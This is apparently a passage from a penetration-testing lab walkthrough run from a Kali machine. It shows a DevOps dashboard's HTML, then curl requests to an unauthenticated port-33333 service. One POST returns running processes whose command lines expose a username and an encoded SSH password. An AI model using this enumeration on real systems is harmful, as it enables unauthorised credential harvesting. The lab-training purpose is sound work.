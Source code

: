 ```bash
<h1>DevOps Dashboard</h1>
<hr>
<form action='http://169.254.3.88:33333/list-current-deployments' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='http://169.254.3.88:33333/list-running-procs' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='http://169.254.3.88:33333/list-active-nodes' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>
```

The links in the page are not accessible. Let’s enumerate with Curl.

```bash
┌──(root💀kali)-[/opt/generic]
└─# curl -X GET http://192.168.249.99:33333/                         
Invalid Token
```

```bash
┌──(root💀kali)-[/opt/generic]
└─# curl -X POST http://192.168.249.99:33333/list-running-procs -d ""
name        : System Idle Process
commandline : 

name        : System
commandline : 

...

name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

...

name        : WmiPrvSE.exe
commandline : C:\Windows\system32\wbem\wmiprvse.exe

name        : SgrmBroker.exe
commandline : 

name        : SearchIndexer.exe
commandline : C:\Windows\system32\SearchIndexer.exe /Embedding

name        : WmiApSrv.exe
commandline : C:\Windows\system32\wbem\WmiApSrv.exe
```

